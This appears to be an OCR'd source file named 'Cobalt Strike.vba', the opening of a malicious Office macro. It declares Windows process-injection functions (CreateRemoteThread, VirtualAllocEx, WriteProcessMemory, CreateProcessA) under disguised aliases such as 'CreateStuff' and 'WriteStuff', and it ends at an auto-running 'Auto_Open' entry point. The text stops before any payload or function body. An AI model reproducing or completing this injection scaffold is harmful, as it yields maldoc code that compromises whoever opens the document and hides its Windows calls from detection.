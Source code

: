 Cobalt Strike.vba

```plaintext
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
```